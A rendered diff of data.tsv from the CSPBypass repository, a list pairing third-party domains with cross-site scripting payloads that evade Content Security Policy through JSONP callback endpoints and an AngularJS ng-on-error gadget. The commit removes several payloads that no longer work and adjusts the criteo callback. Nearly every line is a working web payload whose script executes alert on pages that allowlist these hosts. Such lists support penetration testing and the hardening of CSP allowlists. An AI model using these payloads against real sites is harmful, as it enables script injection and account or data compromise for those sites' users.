

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; removed rows and columns are numbered as before the commit, all else as after; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Removed non working, fixed some others.

```diff
--- a/data.tsv
+++ b/data.tsv
-row 15: ap.lijit.com | <script src="https://ap.lijit.com/rtb/bid?callback=alert&br={%22id%22:%221%22,%22site%22:{%22domain%22:%22x%22,%22page%22:%22x%22}}"></script>
-B55: <script src="https://cas.criteo.com/delivery/0.1/napi.jsonp?zoneid=377600&callback=alert(1)"></script>
+B55: <script src="https://cas.criteo.com/delivery/0.1/napi.jsonp?zoneid=377600&callback=alert"></script>
-row 116: ib.adnxs.com | <script src="https://ib.adnxs.com/async_usersync?cbfn=alert(1)-"></script>
-row 153: portal.ayco.com | <script src="https://portal.ayco.com/publicBundles/angularjs"></script><div ng-app><img src=x ng-on-error="window=$event.target.ownerDocument.defaultView;window.alert(window.origin);">
-row 211: visitor.pixplug.in | <script src="https://visitor.pixplug.in/jsonp/getdata.php?callback=alert(1)"></script>
```
Also changed, not shown: 1 edited cell elsewhere in this file.
